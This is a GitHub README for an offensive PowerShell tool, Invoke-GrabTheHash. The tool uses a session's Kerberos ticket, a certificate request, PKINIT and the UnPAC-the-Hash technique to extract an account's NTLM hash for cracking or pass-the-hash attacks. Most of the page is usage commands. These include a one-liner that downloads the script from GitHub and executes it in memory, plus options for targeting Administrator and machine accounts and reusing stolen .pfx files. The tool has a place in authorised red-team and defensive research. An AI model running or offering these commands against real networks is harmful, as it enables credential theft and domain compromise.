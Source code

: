 # Invoke-GrabTheHash
Requests a certificate from a Windows Certificate Authority (CA) for the User or Machine Account TGT held in your current session, uses PKINIT to obtain a TGT for the same Account, then performs the UnPAC-the-Hash technique to extract the Account's NTLM hash.

This approach can be valuable in situations where an account's TGT has been compromised. Gaining access to the account hash allows for further actions such as cracking it to retrieve the account plain-text password, pass-the-hash attacks, or acquiring a new TGT if the existing one has expired.

### Run as follows
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-GrabTheHash/main/Invoke-GrabTheHash.ps1')
```
```
Invoke-GrabTheHash
```

### Specify a target Domain
```
Invoke-GrabTheHash -Domain ferrari.local
```

### Enumerate for Certificate Templates
```
Invoke-GrabTheHash -CertTemplates
```

### Specify a Certificate Template to use
By default, the "User" or "Machine" template is used to request a certificate
```
Invoke-GrabTheHash -TemplateName User
```

### Specify the CA Name
```
Invoke-GrabTheHash -CAName "CA01.ferrari.local\ferrari-CA01-CA"
```

### Specify the Account Client Name
This must correspond to the TGT Client Name in your current session
```
Invoke-GrabTheHash -CN Administrator
```

### Work with a Machine Account
Make sure you run on an elevated context or it will fail
```
Invoke-GrabTheHash -Machine
```

### Provide a .pfx file
You can also reuse a previously obtained .pfx to get the user hash

Make sure you provide the full path to the .pfx file, as well as the CN and Domain information
```
Invoke-GrabTheHash -PFX C:\Users\Senna\Downloads\Administrator.pfx -Domain ferrari.local -CN Administrator
```

### Example Output
![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/da1964e6-2159-42cd-838e-b8d400617cb2)

![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/2e887daf-865a-4813-9930-f32815ee653b)

### Credits

Rubeus

https://github.com/GhostPack/Rubeus
